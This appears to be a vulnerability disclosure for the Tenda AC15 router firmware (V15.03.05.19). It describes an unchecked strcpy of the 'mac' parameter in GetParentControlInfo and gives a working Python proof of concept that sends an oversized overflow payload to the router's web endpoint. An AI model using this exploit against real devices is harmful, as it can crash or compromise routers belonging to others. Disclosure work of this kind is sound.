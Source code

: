 # TendaAC15v15.03.05.19GetParentControlInfo

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/102680

## Affected version

AC15v1.0 V15.03.05.19

## Vulnerability details

In this code, `strcpy` is used to copy the string pointed to by `src` to the memory area pointed to by `s` at offset 2. The problems are as follows:

1. **The target buffer size is unclear**: `s` is allocated `0x254` bytes of memory (596 bytes), but `strcpy` does not check the size of the target buffer and directly copies the contents of `src` to the `s + 2` position. If the length of the `src` string exceeds the memory space available after the `s + 2` position, `strcpy` will cause a buffer overflow.
2. **The size of `src` is not verified**: `src` is obtained from `sub_2BA8C(a1, "mac", &unk_EDD28)`, and it is not ensured that the string does not exceed the size of the memory space after the `s + 2` offset. If the length of `src` is too long and exceeds the memory range allocated by `s`, `strcpy` will write to the out-of-bounds memory area, causing an overflow.

![image-20250117235701292](F:\Desktop\工具\二进制漏洞\IoT\img\image-20250117235701292.png)

## POC

```python
import requests

def create_payload():
    return b"A" * 51200 + b"\xef\xbe\xad\xde"

def send_payload(url, payload):
    response = requests.get(url, params={'mac': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

if __name__ == "__main__":
    send_payload("http://192.168.1.100/goform/GetParentControlInfo", create_payload())
```

![image-20250117235917205](F:\Desktop\工具\二进制漏洞\IoT\img\image-20250117235917205.png)

